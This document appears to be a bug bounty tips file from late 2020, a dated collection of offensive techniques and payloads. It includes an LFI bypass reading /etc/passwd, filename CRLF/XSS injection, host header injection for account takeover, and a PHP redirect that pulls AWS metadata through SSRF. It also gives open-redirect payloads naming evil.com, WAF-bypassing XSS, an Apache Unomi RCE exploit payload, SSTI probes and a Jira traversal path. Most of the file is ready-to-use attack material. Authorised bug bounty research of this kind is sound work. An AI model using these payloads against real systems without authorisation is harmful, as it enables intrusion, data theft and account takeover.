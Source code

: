 # Bug Bounty Tips File -4
📅 06-Nov-2020
## Browser-Based application LFI
`file:///etc/passwd` blacklisted? Use `"view-source:file:///etc/passwd"`
"view-source" is often forgotten by developers in blacklists.
## bypassing file content restrictions:
in some cases you can do a crlf injection via filename
`x.png%22%0d%0a%0d%0a%0d%0a<script>alert(1)</script>`
***this will cause Content-Disposition to throw its content into the file***

📅 10-Nov-2020
## Race Condition
***https://hackerone.com/reports/994051***
## Host Header Injection
It was blocking all the urls except for the websites hosted with the same provider. In this case Fastly. 
```js
host : http://bbc.com
```
**worked**                    
Now attacker can register a domain with Fastly and use HHI to ATO using forgot password ! 

📅 11-Nov-2020
## SSRF Bypass via 303 redirect
*Host the following code in your server and use your server ip to ping at where you feel ssrf is found*
```php
<?php header('Location: http://169.254.169.254/latest/meta-data/', TRUE, 303); ?>
```
***Note :*** This code is to fetch aws metadata you can edit the location to your target location. For more info **https://medium.com/techfenix/ssrf-server-side-request-forgery-worth-4913-my-highest-bounty-ever-7d733bb368cb** 

📅 16-Nov-2020
## Check for open redirect,ssrf with waybackurls
```sh
waybackurls target[.]com | grep ‘http%\|https%'
```
***Note : You can replace the URLs you find with yours and hope for an open redirect,ssrf or something else. You can grep out analytic stuff with grep -v. If your target has something with OAuth with a redirect_uri target/* that's an easy ATO***
## Searching for endpoints, by apks
```sh
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|http://schemas.android\|google\|http://goo.gl"
```
## Fuzz all js files from the target
```sh
xargs -P 500 -a domain -I@ sh -c 'nc -w1 -z -v @ 443 2>/dev/null && echo @' | xargs -I@ -P10 sh -c 'gospider -a -s "https://@" -d 2 | grep -Eo "(http|https)://[^/\"].*\.js+" | sed "s#\] \- #\n#g" | anew'
```

📅 17-Nov-2020
## OPen redirect Bypass payloads
```text
http:http:evil[.]com
http:/evil%252ecom
///www.x.com@evil.com
```
## Recent XSS triple bypass surgery:
```js
DOM XSS via $.append(<PAYLOAD>)
1. WAF: <script> blocked but <script/a> isn’t (lol)
2. All uppercased: Instead of direct JS (ALERT isn’t valid), use <script/src>
3. 20 char limit(!!): Used my 5 char domain <script/src=//ab.cd> 
```
***thanks to [@spaceracoon](https://twitter.com/spaceraccoonsec)***
## Bug bounty cheatsheet
***https://github.com/EdOverflow/bugbounty-cheatsheet***
## Blind SQL Injection
***https://hackerone.com/reports/1034625***

📅 20-Nov-2020
## CVE-2020-13942 Apache Unomi Remote Code Execution
```json
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"}
```
- [Proof of Concept](img/-%20CVE-2020-13942%20Apache%20Unomi%20Remote%20Code%20Execution__PoC__%7B_filters___%7B_id_%20_%20_py.mp4)

📅 22-Nov-2020
## 🔥Using dnsgen to find new domains from a list of domains, I used amass on the list (army1).
🔥 xargs -a army1 -I@ sh -c 'echo @' | dnsgen - | httpx -silent -threads 1000 🔥
#Bugbounty #bugbountytips #recon #github #KingOfBugBountyTips
## SSTI
If your username and last name fields are vulnerable to HTML injection, try SSTI vulnerability too! 
SSTI can be made with RCE. This is a typical SSTI Payload.
`{{ '7'*7 }}`
We need to identify what template engine is used in the back-end as well to exploit further to get RCE.
- `if {{ 7*'7′ }} -> 7777777` -> Its Jinja2 Engine
- `if {{ 7*'7′ }} -> 49` -> Its Twig Engine
#bugbountytips

📅 22-Nov-2020
## (Jira Webroot Directory Traversal)
http://target.domain/s/anything/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
OR
-site.atlassian.net/s/anything/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
`pom.xml or txt`
